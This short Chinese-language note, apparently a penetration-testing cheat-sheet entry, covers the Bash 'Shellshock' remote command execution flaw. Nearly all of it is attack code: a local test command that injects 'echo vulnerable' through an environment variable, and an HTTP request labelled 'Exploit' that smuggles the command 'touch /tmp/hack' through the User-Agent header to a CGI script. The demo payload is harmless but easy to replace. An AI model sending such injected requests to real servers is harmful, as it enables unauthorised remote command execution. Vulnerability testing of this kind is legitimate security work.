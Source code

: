 ### Bash远程解析命令执行漏洞
测试方法
```shell
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

Exploit:
```http
GET /cgi-bin/test.cgi HTTP/1.1 
Host: help.example.com 
User-Agent: () { :;}; touch /tmp/hack
Accept: */*
Referer: http://www.example.com
Connection: keep-alive
```
